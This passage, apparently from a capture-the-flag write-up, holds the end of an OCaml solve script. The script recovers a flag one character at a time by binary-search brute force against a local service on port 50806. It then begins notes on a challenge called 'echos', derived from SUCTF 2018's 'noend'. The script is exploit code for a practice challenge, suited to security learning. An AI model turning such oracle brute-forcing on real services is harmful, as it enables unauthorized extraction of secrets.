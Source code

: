```OCaml
        end
    end


(**
 * bruteforce particular index
 *)
let bruteforce index ~host ~port =
    let rec binary_search_bruteforce index left right =
        if left < right then
            begin
                print_endline (Printf.sprintf "left: %d" left);
                print_endline (Printf.sprintf "right: %d" right);
            let mid = (left + right) / 2 + 1 in
            if is_less index mid ~host ~port then
                binary_search_bruteforce index left (mid - 1)
            else
                binary_search_bruteforce index mid right
            end
        else
            right
    in binary_search_bruteforce index 17 127


let rec getflag cur ~host ~port =
    let len = String.length cur in
    begin
    if len < 0x20 then
        bruteforce len ~host ~port |>
        Char.chr |>
        String.make 1 |>
        fun x -> begin
            print_endline ("cur: " ^ cur ^ x);
            getflag (cur ^ x) ~host ~port
        end
    else
        cur
    end

let () =
    print_endline "start";
    getflag "" ~host:"localhost" ~port:50806 |>
        print_endline;
;;
```

### echos

**1. program info**

this challenge is modified base the SUCTF 2018's noend challenge. The detail information of noend is in the Neo God's [blog](https://changochen.github.io/2018-05-28-suctf.html).
